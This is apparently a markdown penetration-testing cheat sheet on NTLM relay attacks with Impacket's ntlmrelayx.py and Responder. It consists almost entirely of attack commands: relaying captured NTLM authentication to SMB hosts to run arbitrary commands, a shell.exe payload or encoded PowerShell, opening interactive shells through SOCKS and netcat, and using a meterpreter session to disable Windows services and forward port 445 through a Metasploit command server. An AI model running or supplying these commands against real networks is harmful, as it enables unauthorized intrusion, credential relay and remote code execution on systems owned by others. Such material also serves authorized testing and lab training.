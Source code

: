# Impacket

## 01 - NTLMRelayX

### 1.1 - Basics

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c <commands>`

`$ sudo ntlmrelayx.py -tf targets.txt -smb2support -c <commands>`

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e shell.exe`

`$ sudo ntlmrelayx.py -tf targets.txt -smb2support -e shell.exe`

- **Interactive shell with netcat**

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -socks`

`$ nc 127.0.0.1 <PORT>`

### 1.2 - Use Cases

#### 1.2.1 - Callback Shell

- **Modify in the Responder configuration file**

`$ sudo nano /etc/responder/Responder.conf`

---

```
SMB=OFF  
HTTP=OFF
```

- **Start the Responder**

`$ sudo responder -I <interface> -rdw`

Spawn callback shell

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e shell.exe`

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c "powershell.exe -E <base64_encoded>"`

Interactive shell with netcat

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -i`

`$ nc 127.0.0.1 <PORT>`

#### 1.2.2 - Proxychains via Relaying

##### 1.2.2.1 - Hijack Host and Setup MITM

- **Disable SMB to spoof the targets via proxychains**

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -socks

meterpreter > shell

C:\> sc stop netlogon

C:\> sc stop lanmanserver

C:\> sc config lanmanserver start=disabled

C:\> sc stop lanmanworkstation

C:\> sc config lanmanworkstation start=disabled

C:\> shutdown /r

C:\> exit
```

Add a reverse port forward to 445 to relay SMB attack via the command and control server (metasploit)

`meterpreter > portfwd add -R -L <bind_target_IP> -l 445 -p 445`

- **Cleanup**

```
meterpreter > shell

C:\> sc config lanmanserver start=auto

C:\> sc start lanmanworkstation

C:\> sc config lanmanworkstation start=auto

C:\> sc start netlogon
```

## References

- [Tryhackme HOLO](https://stimpz0r.com/tryhackme-holo/)

- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)